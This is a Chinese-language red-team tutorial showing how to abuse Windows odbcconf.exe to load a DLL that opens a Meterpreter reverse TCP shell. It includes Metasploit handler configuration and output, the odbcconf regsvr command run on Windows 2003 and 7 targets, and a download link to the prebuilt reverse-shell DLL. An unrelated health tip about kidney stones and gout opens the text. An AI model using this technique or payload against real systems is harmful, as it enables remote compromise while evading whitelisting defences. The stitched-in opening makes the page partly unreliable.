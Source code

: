 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Odbcconf简介：

ODBCCONF.exe是一个命令行工具，允许配置ODBC驱动程序和数据源。

微软官方文档：  
https://docs.microsoft.com/en-us/sql/odbc/odbcconf-exe?view=sql-server-2017

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：
```bash
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe`

Windows 7 默认位置：
`C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe
```

**攻击机：**   
192.168.1.4 Debian  

**靶机：**   
192.168.1.119 Windows 2003  
192.168.1.5 Windows 7

### 配置攻击机msf：
**注：x86 payload**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name

‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](/img/ba0e4d6c7b05eef6b8bcd5a730fb0c0b.jpg)

### 靶机执行：Windows 2003

**注：**文中为了更好的跨Windows 03--Windows 2016，Odbcconf for dll采纯C重新编写。  

![](/img/df24184d409a2c0d09bbd18c511bc231.jpg)

```bash
C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\Micropoor_Odbcconf.dll}
```

**注：x64** Odbcconf.exe  
![](/img/74bf5a42540b5298cffc72cfa8987743.jpg)  

![](/img/c8a788e729ff4969f70affe596b8f3a5.jpg)

### 附：
Micropoor_Odbcconf.dll，已测Windows 2003 x64 Windows 7 x64

**注：**
功能：reverse_tcp IP:192.168.1.4 PORT:53。如有安全软件拦截，因Micropoor加入特征。

>   大小: 73216 字节
>   修改时间: 2019年1月19日, 21:29:11
>   MD5: B31B971F01DE32EC5EC45746BF3DDAD2
>   SHA1: CF42E4BF5A613992B7A563A522BBEBF1D0F06CCE CRC32: 28A1CE90

https://drive.google.com/open?id=1j12W7VOhv_-NdnZpFhWLwdt8sQwxdAsk

>   Micropoor
